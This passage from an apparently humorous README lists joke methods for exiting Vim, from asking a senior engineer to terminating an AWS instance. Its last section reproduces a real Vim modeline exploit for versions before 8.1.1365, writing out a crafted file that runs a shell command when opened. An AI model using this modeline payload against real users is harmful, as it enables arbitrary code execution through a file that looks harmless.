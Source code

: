 ## The Jeffrey Way

![Jeffrey Way](assets/jeffrey.jpeg)

## The Entry Level Software Engineer way
1. Try CTRL+C
2. Ask a senior engineer
3. Have senior engineer direct you to [how-to-exit-vim](https://github.com/hakluke/how-to-exit-vim)

## The [Obligatory] Emacs Way

```
$ echo 'alias vim=emacs' >> ~/.bashrc
$ source ~/.bashrc
```

Note: does not exit a running instance of Vim, but resolves future issues.

## The AWS Way
1. In AWS EC2, select **Launch Instance**.
2. Launch an EC2 instance with a Linux based AMI.
3. ssh into the newly created EC2 instance
```shell
ssh -i <ec2 keypair pem location> ec2-user@<ec2 instance ip address>
```
4. Launch vim
```shell
vim
```
5. In the AWS EC2, select the newly created EC2 instance and terminate the instance.

## The Matryoshka Way
Credit: @ccw630

```vim
:!$SHELL
```

## The AWS CLI Way
```
!aws --region `ec2-metadata --availability-zone | sed 's/placement: \(.*\).$/\1/'` ec2 stop-instances --instance-ids `wget -q -O - http://169.254.169.254/latest/meta-data/instance-id`
```

## The Arbitrary Code Execution Way

Based on https://www.exploit-db.com/exploits/46973. Works with Vim < 8.1.1365.

1. Create a file (say `quit.txt`) with the following data:
```
echo ':!killall vim||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' > quit.txt
```
2. Ensure that the modeline option has not been disabled.
```
echo "set modeline" >> .vimrc
```
3. Open `quit.txt`.
```
:e! quit.txt
```
